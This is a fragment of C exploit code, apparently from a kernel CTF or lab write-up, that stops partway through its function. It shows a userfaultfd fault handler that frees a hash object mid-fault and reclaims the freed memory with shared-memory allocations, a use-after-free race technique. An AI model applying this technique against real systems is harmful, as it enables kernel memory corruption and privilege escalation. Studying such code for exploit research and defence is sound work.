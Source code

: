 ```c
fault_handler_thread(void *arg)
{
    static struct uffd_msg msg;
    static int fault_cnt = 0;
    long uffd;

    struct uffdio_copy uffdio_copy;
    ssize_t nread;

    uffd = (long) arg;

    for (;;) 
    {
         /* See what poll() tells us about the userfaultfd. */
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);

        if (nready == -1){
            printf("[-] poll");
            exit(-1);
        }
         /* Read an event from the userfaultfd. */
        nread = read(uffd, &msg, sizeof(msg));

        if (nread == 0){
            printf("[-] read");
            exit(-1);
        }
        if (nread == -1){
            printf("[-] read");
            exit(-1);
        }
        if (msg.event != UFFD_EVENT_PAGEFAULT){
            printf("Unexpected event on userfaultfd\n");
            exit(-1);
        }
        printf("    UFFD_EVENT_PAGEFAULT event: \n");
        printf("flags = %"PRIx64"; \n", msg.arg.pagefault.flags);
        printf("address = %"PRIx64"\n", msg.arg.pagefault.address);

        // content here
        hash_object h2;
        h2.content = "aaaa"; // should not be this or cannot bypass the check `memcmp(hash, hash_other, HASH_SIZE) != 0` 
        h2.message = "bbbb";
        h2.hash[0] = 0;
        hash_obj(&h2); // deleting h1's corresponding entry

        // use shmem to occupy the freed space
        int shmid;
        if ((shmid = shmget(IPC_PRIVATE, 100, 0600)) == -1) {
            perror("shmget");
            return 1;
        }
        char *shmaddr = shmat(shmid, NULL, 0);
        if (shmaddr == (void*)-1) {
            perror("shmat");
            return 1;
        }

```
